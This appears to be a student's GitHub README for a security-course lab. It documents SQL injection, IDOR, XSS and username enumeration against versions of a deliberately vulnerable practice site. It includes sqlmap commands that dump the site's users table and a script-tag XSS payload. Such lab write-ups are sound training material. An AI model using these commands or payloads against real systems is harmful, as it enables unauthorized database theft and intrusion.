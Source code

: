 # Cybersecurity_week8

## Six possible vulnerabilities:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [ ] Cross-Site Request Forgery
- [ ] Session Hijacking/Fixation
## Vulnerabilities I found and exploited:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [x] Bonus Objective 1:
  * Build on the SQL Injection vulnerbility. Experiment to see what other kinds of information one can get the database to reveal.
  
## **Blue** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. Use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
## **Green** version of Globitek website 
**Vulnerability 1:** Username Enumeration
  * **Steps:**
    1. Type in username
    2. Type in a random password
    3. Teep submitting the wrong password multiple times until the "failed logins" message shows up
  * **GIF walkthrough:**
    * ![usernameenum](https://user-images.githubusercontent.com/31838335/39099064-ef761ec8-4641-11e8-8094-556642464fc3.gif) <br />
**Vulnerability 2:** Cross-Site Scripting
  * **Steps:**
    1. Go to Contact
    2. Submit a feedback with malicious code: <script>alert('xss')</script>
  * **GIF walkthrough:**
    * ![xss](https://user-images.githubusercontent.com/31838335/39099083-3bf6dbde-4642-11e8-9e3f-1f8d585dd0d9.gif)

## **Red** version of Globitek website 
**Vulnerability 1:** Insecure Direct Object Reference
  * **Steps:**
    1. Go to https://35.184.168.159/blue/public/salesperson.php?id=1
    2. Change the value of id to 10 or 11 would reveal information that should not be revealed
  * **GIF walkthrough:**
    * ![idor](https://user-images.githubusercontent.com/31838335/39099090-56e74dac-4642-11e8-84f7-111537caefb6.gif)

## ** Bonus Objective 1: **
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
